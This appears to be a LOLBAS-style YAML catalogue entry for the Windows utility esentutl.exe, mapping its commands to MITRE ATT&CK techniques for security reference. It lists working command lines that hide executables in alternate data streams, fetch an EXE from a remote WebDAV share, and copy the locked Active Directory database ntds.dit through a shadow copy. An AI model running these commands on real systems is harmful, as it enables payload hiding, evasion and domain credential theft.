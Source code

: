 ```yaml
---
Name: Esentutl.exe
Description: Binary for working with Microsoft Joint Engine Technology (JET) database
Author: "Oddvar Moe"
Created: "2018-05-25"
Commands:
  - Command: esentutl.exe /y C:\folder\sourcefile.vbs /d C:\folder\destfile.vbs /o
    Description: Copies the source VBS file to the destination VBS file.
    Usecase: Copies files from A to B
    Category: Copy
    Privileges: User
    MitreID: T1105
    MitreLink: https://attack.mitre.org/wiki/Technique/T1105
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: esentutl.exe /y C:\ADS\file.exe /d c:\ADS\file.txt:file.exe /o
    Description: Copies the source EXE to an Alternate Data Stream (ADS) of the destination file.
    Usecase: Copy file and hide it in an alternate data stream as a defensive counter measure
    Category: ADS
    Privileges: User
    MitreID: T1096
    MitreLink: https://attack.mitre.org/wiki/Technique/T1096
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: esentutl.exe /y C:\ADS\file.txt:file.exe /d c:\ADS\file.exe /o
    Description: Copies the source Alternate Data Stream (ADS) to the destination EXE.
    Usecase: Extract hidden file within alternate data streams
    Category: ADS
    Privileges: User
    MitreID: T1096
    MitreLink: https://attack.mitre.org/wiki/Technique/T1096
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: esentutl.exe /y \\192.168.100.100\webdav\file.exe /d c:\ADS\file.txt:file.exe /o
    Description: Copies the remote source EXE to the destination Alternate Data Stream (ADS) of the destination file.
    Usecase: Copy file and hide it in an alternate data stream as a defensive counter measure
    Category: ADS
    Privileges: User
    MitreID: T1096
    MitreLink: https://attack.mitre.org/wiki/Technique/T1096
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: esentutl.exe /y \\live.sysinternals.com\tools\adrestore.exe /d \\otherwebdavserver\webdav\adrestore.exe /o
    Description: Copies the source EXE to the destination EXE file
    Usecase: Use to copy files from one unc path to another
    Category: Download
    Privileges: User
    MitreID: T1096
    MitreLink: https://attack.mitre.org/wiki/Technique/T1096
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: esentutl.exe /y /vss c:\windows\ntds\ntds.dit /d c:\folder\ntds.dit
    Description: Copies a (locked) file using Volume Shadow Copy
    Usecase: Copy/extract a locked file such as the AD Database
    Category: Copy
    Privileges: Admin
    MitreID: T1003
    MitreLink: https://attack.mitre.org/techniques/T1003/
    OperatingSystem: Windows 10, Windows 2016 Server, Windows 2019 Server
Full_Path:
  - Path: C:\Windows\System32\esentutl.exe
  - Path: C:\Windows\SysWOW64\esentutl.exe
Code_Sample:
  - Code:
Detection:
  - IOC:
Resources:
  - Link: https://twitter.com/egre55/status/985994639202283520
  - Link: https://dfironthemountain.wordpress.com/2018/12/06/locked-file-access-using-esentutl-exe/
  - Link: https://twitter.com/bohops/status/1094810861095534592
Acknowledgement:
  - Person: egre55
    Handle: "@egre55"
  - Person: Mike Cary
    Handle: "grayfold3d"
---
```

